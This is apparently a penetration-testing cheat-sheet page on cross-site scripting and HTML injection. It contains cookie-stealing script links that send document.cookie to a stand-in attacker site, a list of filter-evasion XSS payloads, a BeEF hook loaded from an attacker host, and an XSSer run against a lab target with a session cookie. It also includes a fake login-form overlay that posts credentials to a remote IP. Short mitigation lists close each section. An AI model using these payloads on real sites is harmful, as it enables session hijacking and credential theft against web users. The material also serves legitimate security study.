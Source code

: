 # HTML | XSS

## XSS

{% hint style="info" %}
Cross-Site Scripting (XSS) attacks are a type of **injection**, in which **malicious scripts** are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send **malicious code**, generally in the form of a browser side script, to a different end user.
{% endhint %}

### Types

#### **Stored XSS**&#x20;

{% hint style="info" %}
The injected script is permanently stored on the target servers, such as in a database, in a **message** forum, visitor log, **comment** **field**, etc. The victim then retrieves the malicious script from the server when it requests the stored information.
{% endhint %}

#### **Reflected XSS**&#x20;

{% hint style="info" %}
Reflected attacks are those where the injected script is **reflected** off the web server, such as in an **error message**, **search result**, or any other response that includes some or all of the input sent to the server as part of the request.&#x20;
{% endhint %}

Let’s say a web page has a search box, which displays the search text alongside the search results as follows :

`Your search results for “searchtext”:`

The web page also uses the **HTTP GET request method** to embed the user’s input data to the query string of the URL as follows:&#x20;

`https://example.com/action.php?query=searchtext`

If the search box is susceptible to a non-persistent XSS attack, a cybercriminal can send a malicious link to an unsuspecting user and exploit the vulnerability.&#x20;

This is how the script-injected link could look like:

`https://example.com/action.php?query=<script>document.location=’https://xssattacksite.com/log.php?c=’ + encodeURIComponent(document.cookie)</script>`

#### **DOM XSS**&#x20;

{% hint style="info" %}
DOM Based XSS (or as it is called in some texts, “type-0 XSS”) is an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim’s browser used by the original client side script, so that the client side code runs in an “unexpected” manner. That is, the page itself (the HTTP response that is) does not change, but the client side code contained in the page executes differently due to the malicious modifications that have occurred in the DOM environment.
{% endhint %}

Let’s take the following example of a web page that utilizes JavaScript to manipulate a DOM element:

`let searchText = document.getElementById(‘searchText’).value;`\
`let resultsData = document.getElementById(‘resultsData’);`\
`resultsData.innerHTML = ‘Your search results for: ‘ + searchText;`

As you can see on the code snippet above, the value from a user input field is grabbed and appended to an element within the web page’s HTML. If an attacker can control this value, they can craft a devious value that forces their own code to be executed.

Here is an example **** :

`Your search results for: “<script>document.location=’https://xssattacksite.com/log.php?c=’ + document.cookie</script>”`

### Payloads

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" %}
XSS cheatsheet
{% endembed %}

{% embed url="https://github.com/payloadbox/xss-payload-list/blob/master/Intruder/xss-payload-list.txt" %}
XSS payloads
{% endembed %}

**Examples**

```html
<!-- put this into a form field or search bar-->
<img src=q onError=prompt('!XSS!'); />
<script>alert("!XSS!")</script>
<script>print()</script>

<!-- encoded -->
%uff1cscript%uff1eprompt("!XSS!");%uff1c/script%uff1e&
%253Cscript%253Eprint()%253C%252Fscript%253E
%253Cimg%2520src%253Dq%2520onError%253Dalert(%2522XSS%2522)%253B%2520%252F%253E

<!-- Bypassing First Filter -->
<svg/onload=alert(1)>
<svg//////onload=alert(1)>
<svg id=x;onload=alert(1)>
<svg id=`x`onload=alert(1)>
<svg%09onload=alert(1)>
<svg onload%09=alert(1)>
<svg%09onload%20=alert(1)>
<svg onload%09%20%28%2C%3B=alert(1)>
<svg onload+0B=alert(1)>
<script>\u0061lert(1)</script>
<script>\u0061\u006c\u0065\u0072\u0074(1)</script>
<img src=x onerror="\u0061lert"/>
<img src=x onerror="eval('\141lert(1)')"/>
<img src=x onerror="eval('\x61lert(1)')"/>

 <!-- Javascript Keyword is blocked-->
<object data="JaVaScRiPt:alert(1)">
<object data="javascript&colon;alert(1)">
<object data="java  
    script:alert(1)">
<object data="javascript&#x003A;alert(1)">
<object data="javascript&#58;alert(1)">
<object data="&#x6A;avascript;alert(1)">
<object data="&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;74;&#x3A;alert(1)">
<object data="data:text/html,<script>alert(1)</script>">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">

```

### N.B.

#### ~~alert()~~ print()

Use **print** instead of alert

{% embed url="https://portswigger.net/research/alert-is-dead-long-live-print" %}

### Beef

#### Install & Config

```bash
git clone https://github.com/beefproject/beef.git
./install
nano config.yaml # change username and password
./beef
```

#### Control

```html
<!-- insert this into xss vulnerable field : -->
<script src="http://ip_hacker:3000/hook.js"></script>

<!-- use waf bypass -->
```

### XSSER

{% hint style="info" %}
XSSer is an automatic **framework**, which **detects XSS vulnerabilities** over in the web-applications and even provides up several options to exploit them.
{% endhint %}

```bash
# install
git clone https://github.com/epsylon/xsser.git
```

![](<../../.gitbook/assets/image (102).png>)

**Capture the browser request with Burp, use request value (cookies value...) :**

![](<../../.gitbook/assets/image (119).png>)

```bash
# Run XSSER
cd xsser/
python3 xsser --url "http://192.168.0.9/bWAPP/xss_get.php?firstname=XSS&lastname=test1&form=submit" --cookie "PHPSESSID=q6t1k21lah0ois25m0b4egps85; security_level=1" --auto
```

![Output result](<../../.gitbook/assets/image (100).png>)

### Mitigations

* Developers should implement a **whitelist** of allowable inputs, and if not possible then there should be some input validations and the data entered by the user must be filtered as much as possible.
* Output **encoding** is the most reliable solution to combat XSS i.e. it takes up the script code and thus converts it into the plain text.
* A **WAF** _(Web Application Firewall)_ should be implemented as it somewhere protects the application from XSS attacks.
* Use of **HTTPOnly Flags** on the **Cookies**.
* The developers can use **Content Security Policy (CSP)** to reduce the severity of any XSS vulnerabilities.

## HTML Injection

### Check

* **Form fields**
  * Exploit with _BurpSuite_ using URL Encode

### Payloads

```html
<!-- URL ENCODE THESE & put them in a form field -->
<b>test</b>
<a href="https://google.com">test</a>
<img src= "https://www.ignitetechnologies.in/img/logo-blue-white.png">

<!-- add a form field to website -->
<div style="position: absolute; left: 0px; top: 0px; width: 1900px; height: 1300px; z-index:1000; background-color:white; padding:1em;">Please login with valid 
credentials:<br><form name="login" action="http://192.168.0.7:4444/login.htm">
<table><tr><td>Username:</td><td><input type="text" name="username"/></td></tr><tr><td>Password:</td>
<td><input type="text" name="password"/></td></tr><tr>
<td colspan=2 align=center><input type="submit" value="Login"/></td></tr>
</table></form>
```

### Mitigations

* The developer should set up his HTML script which filters the meta-characters from user inputs.
* The developer should implement functions to validate the user inputs such that they do not contain any specific tag that can lead to **virtual defacement.**

